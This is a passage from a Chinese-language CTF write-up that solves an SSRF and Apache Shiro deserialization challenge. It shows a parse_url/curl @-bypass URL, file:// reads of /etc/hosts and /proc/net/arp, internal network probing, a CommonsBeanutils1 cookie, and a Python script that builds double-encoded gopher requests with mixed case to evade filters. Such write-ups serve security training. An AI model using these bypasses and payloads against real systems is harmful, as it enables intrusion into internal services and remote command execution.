            e.getStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws
            TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {
    }
}
```

## 某道SSRF+Shiro反序列化题目题解

这里只写一些关键的攻击步骤

### SSRF部分

#### SSRF绕过

直接访问hint.php，提示失败


尝试用localhost，提示被检测到SSRF攻击


构造URLhttp://a@localhost:80@baidu.com/hint.php，绕过SSRF检测，获得提示api.v3r.0.0.1.php

- `parse_url`函数会检测后一个@对应的baidu.com的IP是否在黑名单内，肯定不在，所以能够绕过
- `curl_exec`函数在运行URL时则会访问前一个@后的`localhost:80`，从而实现服务端请求伪造

猜测api.v3r.0.0.1.php为旧版本的api.php，可能存在漏洞，发现可以使用file协议


#### SSRF内网探测

使用`File:///etc/hosts`读主机IP，发现两个内网IP地址，说明存在两个内网段


可以查看`File:///proc/net/arp`中最近请求的IP，也可以对内网里的IP和端口进行探测，发现http://172.20.0.2:8080/开启了一个服务



访问http://172.20.0.2:8080/login/提示有remember字段，猜测是shiro反序列化漏洞


### Shiro反序列化部分

Shiro反序列化部分用到了上面的无依赖的Shiro攻击+shiro回显脚本

首先运行CommonsBeanutils1Shiro的main方法生成cookie：


然后构造HTTP访问请求，注意

- GET访问login页面，且cmd参数的值为env的base64加密结果，便于后续脚本的使用


构造gopher协议请求

- 两遍URL编码
- gOpher中o大写，以绕过检查

```python
import urllib.parse
filename = "http.txt"
gopher = ""
for i in open(filename).readlines():
	line = i.strip()
	gopher += line + "\r\n"
enc = urllib.parse.quote(urllib.parse.quote(gopher))
print("gOpher://172.20.0.2:8080/_"+enc)
```

将生成的数据在数据包中发送，成功获得环境中的flag

